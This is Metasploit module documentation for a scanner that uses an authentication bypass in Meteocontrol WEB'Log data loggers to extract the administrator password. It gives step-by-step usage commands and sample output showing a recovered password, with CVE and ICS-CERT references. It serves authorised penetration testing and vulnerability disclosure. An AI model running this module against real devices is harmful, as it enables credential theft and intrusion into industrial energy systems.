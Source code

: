 Meteocontrol WEB'Log Data Loggers are affected with an authentication bypass vulnerability. The module exploits this vulnerability to remotely extract Administrator password for the device management portal.

Note: In some versions, 'Website password' page is renamed or not present. Therefore, password can not be extracted. Manual verification will be required in such cases.

## Verification Steps

1. Do: ```auxiliary/scanner/http/meteocontrol_weblog_extractadmin```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/meteocontrol_weblog_extractadmin
msf auxiliary(meteocontrol_weblog_extractadmin) > info

       Name: MeteoControl WEBLog Password Extractor
     Module: auxiliary/scanner/http/meteocontrol_weblog_extractadmin
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Karn Ganeshen <KarnGaneshen@gmail.com>

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target address range or CIDR identifier
  RPORT    8080             yes       The target port
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  THREADS  1                yes       The number of concurrent threads
  VHOST                     no        HTTP server virtual host

Description:
  This module exploits an authentication bypass vulnerability in 
  Meteocontrol WEBLog (all models) to extract Administrator password 
  for the device management portal.

References:
  https://ics-cert.us-cert.gov/advisories/ICSA-16-133-01
  http://cvedetails.com/cve/2016-2296/
  http://cvedetails.com/cve/2016-2298/

msf auxiliary(meteocontrol_weblog_extractadmin) > set rhosts 1.2.3.4
msf auxiliary(meteocontrol_weblog_extractadmin) > run

[+] 1.2.3.4:8080 - Running Meteocontrol WEBlog management portal...
[*] 1.2.3.4:8080 - Attempting to extract Administrator password...
[+] 1.2.3.4:8080 - Password is password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
